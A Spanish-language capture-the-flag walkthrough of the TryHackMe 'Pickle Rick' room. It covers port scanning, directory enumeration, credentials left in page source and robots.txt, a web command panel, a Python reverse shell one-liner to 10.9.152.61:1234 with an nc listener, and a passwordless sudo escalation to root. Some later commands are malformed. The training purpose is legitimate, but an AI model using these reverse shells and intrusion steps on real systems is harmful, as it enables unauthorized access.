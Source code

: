 ''' 
https://tryhackme.com/room/picklerick
# PICKEL RICK --> EASY
'''

' ' ' '
### --> ESCANEO                                         

Para comenzar con esta máquia una vez que la inciamos en TryHackMe utilizaremos
el ping con el objetivo de saber qué ttl nos resuelve esto mediante una traza ICMP:                                                

$ ping -c 1  10.10.209.28                                                    

Gracias a esto conocemos el sistema operativo                                
mediante el ttl.                                                            

### --> MAPEO DE PUERTOS:

Para comenzar con el scaneo de los puerto utilizo este script de nmap el cual
está optimizado para que sea lo suficientemente rápido y no perder tiempo:   

$ sudo nmap -sS --min-rate 5000 --open -n -Pn -vvv 10.10.209.28 -oG ScanPort 

Con el script anterior lo que hacemos es analizar de manera general todos los
puertos abiertos y después sacar los puertos abierto y poder escanearlos con 
el siguiente scritp de forma detallada                                       

$ nmap -sC -sV -p22,80 10.10.209.28 -oN Ports                                
De esta forma con ambos scripts ya conseguimos lo que necesitamos acerca de  
los servicios que manejan cada puerto.                                       
De antemano vemos que devuelve un puerto 80, esto ya nos da la información    
que maneja un servidor web por lo que vamos a explorar dicha página web.     

Entrando a la página no encontramos nada importante en el frontend o interfaz
por lo tanto daremos ctrl+u para ver el código fuente por si encontramos algo
que sean indicios de algo. Analizando el código fuente vemos comentarizado
lo siguiente:                                                                

Username: R1ckRul3s                                                          

Normalmente nombres así pueden ser potenciales usuarios para poder hacer el
ataque necesario. Pero no es todo, de esta misma forma podemos encontrar
contraseñas.
Como forma adicional podemos ver que existe un directorio por el que se manda
a llamar la imagen que esta en el inicio, nos dirijiremos mediante la url a
este directorio

--> http://10.10.209.28/assets/
De esta forma hacemos el movimiento de directorio, pero ya estando dentro nos
damos cuenta que no hay mas que imagenes pero sabemos que hay mas directorios
por lo tanto utilizaremos el enumeramiento de directorios con gobuster en mi
caso pero usa el de tu preferencia:

gobuster dir -u http://10.10.209.28/ -w /usr/share/wordlists/dirbuster/direct
ory-list-2.3-medium.txt -x php,txt,py,zip,html

Una vez termine vemos que existe un documento robots.txt, estos documentos
suelen tener información bastante sensible, por lo tanto siempre hay que
buscarlos pues nos serian de gran ayuda
Bien, ya entrando desde el link de la misma forma que con la carpet assets lo
hacemos pero poniendo /robots.txt y así nos dirigiremos a dicho archivo.
NOTA: el traversal se hace mediante la url de la página.

frase encontrada: Wubbalubbadubdub
Potencialmente puede ser la contraseña del usuario que encontramos

Como información adicional del gobuster encontramos 2 archivos .php pero uno
viene como login.php, por lo tanto abriremos primero eso de la misma forma
que abrimos los demás archivos. Una vez abierto los dos vemos que nos dirijen
al mismo login por lo tanto no haremos mas que intentar burlar este login.
Lo primero a intentar es utilizar credenciales por defecto como:             

admin = admin
user = pass
root = root

Entre otras contraseñas, pero al no coincidir con estas   
primers dos, lo mas recomendable es probar con lo que ya  
tenemos:                                                  
*Username: R1ckRul3s                                       
*Password: Wubbalubbadubdub                                
                                                                             
Utilizando estas credenciales vemos que nos da acceso a un panel de ejecucion
algunas veces nos pueden dar este tipo de paneles con una bash, pero primero 
hay que ver qué tipo de comandos ejecuta. Al buscar y probar comando de dife-
rente lenguajes, me di cuenta que es terminal de comandos, por lo tanto con
los siguientes comando averiguaremos quienes somos, donde estamos y que hay
donde yo estoy:                                                              

*$ pwd    --> en que directorio estamos
*$ whoami --> quien soy en el sistema
*$ ls     --> lista directorio actual

con el comando ls encontramos el archivo donde encontraremos una flag o
ingrediente, utilizamos varios comando, pero nos damos cuenta que no deja uti
lizar el comando cat y nano, por lo tanto usaremos strings, con esto logramos
ver el contenido del archivo, y asi ver el de los demas archivos y listo     
primera flag econtrada.                                                      
para una reverse shell buscaremos que haya python en cualquier version o en  
su defecto perl, ruby o php, asi podremos ejecutarla                         
para probar python usaremos un comando simple y veremos si nos da un output  
$ python3 -c "print('hello world')"                                          
                                                                             
y nos devuelve un output deseado, por lo tanto usaremos la siguiente reverse 

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.152.61",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

cambiamos la IP a nuestra IP de la vpn y ponemos un el puerto 1234 en escucha para
la reverse shell con el comando:

$ nc -lnvp 1234
NOTA: ejecutaremos primero la instruccion del puerto en escucha en nuestra terminal,
la reverseshell la actualizaremos con nuestra IP y esa se ejecuta directamente en la 
webshell que esta en el navegador.

De esta forma obtenemos acceso a la máquina desde nuestra terminal, mucho mas cómodo
ahora veremos con los mismos comandos quiénes somos, donde estamos y que hay donde estamos,
estamos situados exactamente en el mismo lugar que la webshell. Encontraremos la forma de
convertirnos en root, probaremos lo mas sencillo, cambiarnos a root para ver si mínimo
no tiene credenciales de autenticación:
$ sudo su
$ whoami

despues de la ejecucion de estos dos comando vemos que no necesitabamos credenciales para
poder hacernos root, hay hacemos path traversal a la carpeta /home de ahí nos dirigimos a 
la carpeta rick
$ cd /home
$ ls /rick

vemos que tiene un archivo con la segunda flag, la abrimos con strings y listo

$ cd rick ; xargs strings "second ingredients"

ahora nos dirigiremos al directorio raiz y nos moveremos hasta root y el mismo procedimiento
listamos
$ cd ../../root | xargs strings 3rd.txt

y listo, máquina resuelta.

Espero te haya gustado, es una máquina bastante sencilla, muy fácil para empezar de 0 y 
conocer acerca de explotacion y busqueda de vulnerabilidades, cualquier duda
mandar mensaje directo por discord, espero haberte enseñado algo nuevo c:

Discord: MrGh057#4905
